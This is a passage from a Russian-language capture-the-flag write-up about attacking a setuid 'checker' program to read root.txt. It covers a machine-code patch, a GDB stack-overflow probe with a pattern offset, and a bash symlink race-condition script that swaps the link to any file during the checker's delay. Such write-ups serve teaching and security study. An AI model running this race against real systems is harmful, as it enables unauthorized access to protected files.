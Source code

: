 Я заменил машинный код `3d e9 03 00 00`, отвечающий за инструкцию `cmp eax,0x3e9 `, на `90 83 F8 00 90` — что эквивалентно `cmp eax,0x0` с добитыми до оригинальной длины инструкциями NOP (`0x90`). Ассемблировать мнемоники в опкод (и наоборот) можно с помощью [Ropper](https://github.com/sashs/Ropper) или [онлайн](https://defuse.ca/online-x86-assembler.htm).

### Возможен ли срыв стека?

Откроем `checker` в GDB PEDA и попробуем перезаписать RIP. Для этого я сгенерю паттерн длиной 1000 байт, сохраню в файл `p.txt` и подам его на вход чекеру.

```
gdb-peda$ pattern create 1000 p.txt
Writing pattern of 1000 chars to filename "p.txt"
gdb-peda$ r p.txt
...
```

Программа ожидаемо упала. Посмотрим содержимое регистра RSP.

```
gdb-peda$ x/xg $rsp
0x7fffffffde40: 0x00007fffffffe158
```

В RSP содержится указатель. Если пойти дальше и взглянуть на содержимое указателя, мы найдем часть нашей циклической последовательности.

```
gdb-peda$ x/xs 0x00007fffffffe158
0x7fffffffe158: "BWABuABXABvABYABwABZABxAByABzA$%A$sA$BA$$A$nA$CA$-A$(A$DA$;A$)A$EA$aA$0A$FA$bA$1A$GA$cA$2A$HA$dA$3A$IA$eA$4A$JA$fA$5A$KA$gA$6A$LA$hA$7A$MA$iA$8A$NA$jA$9A$OA$kA$PA$lA$QA$mA$RA$oA$SA$pA$TA$qA$UA$rA$VA$t"...
gdb-peda$ pattern offset BWABuABXABv
BWABuABXABv found at offset: 776
```

Из-за того, что в RSP сохраняется не само содержимое файла, а указатель на него, у меня не вышло получить контроль над RIP. Не уверен, возможно ли это в принципе, так что пойдем по пути наименьшего сопротивления и переключимся на атаку по времени.

## Гонка за root.txt

Стратегия проста до безобразия:
- создаем фейковый файл, который мы заведомо можем читать;
- создаем символическую ссылку, указывающую на него;
- асинхронно (в форке процесса основного шелла) скармливаем файл чекеру;
- ждем полсекунды, чтобы попасть на секунду «ожидания»;
- подменяем символическую ссылку на любой другой файл (только не слишком большой, чтобы не словить ошибку сегментации).

```bash
#!/bin/bash

# Использование: bash checker-exploit.sh <ФАЙЛ>

# Создаем пустой файл, который будет нашим «прикрытием»
touch .fake

# Создаем связующее звено — символическую ссылку на .fake, которую мы подменим далее
ln -s .fake .pivot

# На фоне запускаем чекер и ждем полсекунды, чтобы попасть в окно секундной задержки
checker .pivot &
sleep 0.5

# Подменяем символическую ссылку на другой файл, переданный скрипту в первом аргументе
ln -sf $1 .pivot

```